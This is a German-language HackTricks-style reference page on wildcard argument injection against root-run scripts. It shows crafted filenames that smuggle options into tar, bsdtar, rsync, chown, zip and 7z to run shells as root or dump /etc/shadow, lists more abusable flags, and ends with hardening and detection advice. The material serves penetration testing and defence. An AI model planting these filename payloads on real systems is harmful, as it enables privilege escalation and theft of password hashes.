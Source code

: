 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (auch *glob*) **Argumentinjektion** tritt auf, wenn ein privilegiertes Skript ein Unix-Binary wie `tar`, `chown`, `rsync`, `zip`, `7z`, … mit einem nicht zitierten Wildcard wie `*` ausführt. 
> Da die Shell das Wildcard **vor** der Ausführung des Binaries erweitert, kann ein Angreifer, der Dateien im Arbeitsverzeichnis erstellen kann, Dateinamen erstellen, die mit `-` beginnen, sodass sie als **Optionen anstelle von Daten** interpretiert werden, wodurch willkürliche Flags oder sogar Befehle effektiv geschmuggelt werden.
> Diese Seite sammelt die nützlichsten Primitiven, aktuelle Forschungen und moderne Erkennungen für 2023-2025.

## chown / chmod

Sie können **den Besitzer/die Gruppe oder die Berechtigungsbits einer beliebigen Datei kopieren**, indem Sie das `--reference`-Flag missbrauchen:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Wenn root später etwas wie folgendes ausführt:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` wird injiziert, wodurch *alle* übereinstimmenden Dateien den Besitz/die Berechtigungen von `/root/secret``file` erben.

*PoC & Tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (kombinierter Angriff).
Siehe auch das klassische DefenseCode-Papier für Details.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Führen Sie beliebige Befehle aus, indem Sie die **Checkpoint**-Funktion missbrauchen:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Sobald root z.B. `tar -czf /root/backup.tgz *` ausführt, wird `shell.sh` als root ausgeführt.

### bsdtar / macOS 14+

Das Standard-`tar` auf aktuellen macOS (basierend auf `libarchive`) implementiert *nicht* `--checkpoint`, aber Sie können dennoch eine Codeausführung mit dem **--use-compress-program**-Flag erreichen, das es Ihnen ermöglicht, einen externen Kompressor anzugeben.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Wenn ein privilegiertes Skript `tar -cf backup.tar *` ausführt, wird `/bin/sh` gestartet.

---

## rsync

`rsync` ermöglicht es Ihnen, die Remote-Shell oder sogar die Remote-Binärdatei über Befehlszeilenflags zu überschreiben, die mit `-e` oder `--rsync-path` beginnen:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Wenn root später das Verzeichnis mit `rsync -az * backup:/srv/` archiviert, wird die injizierte Flagge deine Shell auf der Remote-Seite starten.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync`-Modus).

---

## 7-Zip / 7z / 7za

Selbst wenn das privilegierte Skript *defensiv* das Wildcard mit `--` voranstellt (um die Optionsanalyse zu stoppen), unterstützt das 7-Zip-Format **Dateiliste-Dateien**, indem der Dateiname mit `@` vorangestellt wird. Die Kombination mit einem Symlink ermöglicht es dir, *willkürliche Dateien zu exfiltrieren*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Wenn root etwas wie Folgendes ausführt:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip wird versuchen, `root.txt` (→ `/etc/shadow`) als Dateiliste zu lesen und wird abbrechen, **indem es den Inhalt auf stderr ausgibt**.

---

## zip

`zip` unterstützt das Flag `--unzip-command`, das *wörtlich* an die System-Shell übergeben wird, wenn das Archiv getestet wird:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Injectiere das Flag über einen gestalteten Dateinamen und warte darauf, dass das privilegierte Backup-Skript `zip -T` (Archiv testen) auf der resultierenden Datei aufruft.

---

## Zusätzliche Binärdateien, die anfällig für Wildcard-Injection sind (schnelle Liste 2023-2025)

Die folgenden Befehle wurden in modernen CTFs und realen Umgebungen missbraucht. Die Payload wird immer als *Dateiname* in einem beschreibbaren Verzeichnis erstellt, das später mit einem Wildcard verarbeitet wird:

| Binärdatei | Flag zum Missbrauch | Effekt |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → beliebiges `@file` | Dateiinhalt lesen |
| `flock` | `-c <cmd>` | Befehl ausführen |
| `git`   | `-c core.sshCommand=<cmd>` | Befehlsausführung über git über SSH |
| `scp`   | `-S <cmd>` | Beliebiges Programm anstelle von ssh starten |

Diese Primitiven sind weniger verbreitet als die *tar/rsync/zip* Klassiker, aber es lohnt sich, sie bei der Jagd zu überprüfen.

---

## Erkennung & Härtung

1. **Deaktiviere Shell-Gloßing** in kritischen Skripten: `set -f` (`set -o noglob`) verhindert die Wildcard-Erweiterung.
2. **Zitiere oder entkomme** Argumenten: `tar -czf "$dst" -- *` ist *nicht* sicher — bevorzuge `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Explizite Pfade**: Verwende `/var/www/html/*.log` anstelle von `*`, damit Angreifer keine Geschwisterdateien erstellen können, die mit `-` beginnen.
4. **Minimalprivilegien**: Führe Backup-/Wartungsjobs nach Möglichkeit als unprivilegiertes Dienstkonto anstelle von root aus.
5. **Überwachung**: Die vorgefertigte Regel von Elastic *Potential Shell via Wildcard Injection* sucht nach `tar --checkpoint=*`, `rsync -e*` oder `zip --unzip-command`, die sofort von einem Shell-Kindprozess gefolgt werden. Die EQL-Abfrage kann für andere EDRs angepasst werden.

---

## Referenzen

* Elastic Security – Regel *Potential Shell via Wildcard Injection Detected* (letzte Aktualisierung 2025)
* Rutger Flohil – “macOS — Tar wildcard injection” (18. Dez 2024)

{{#include ../../banners/hacktricks-training.md}}
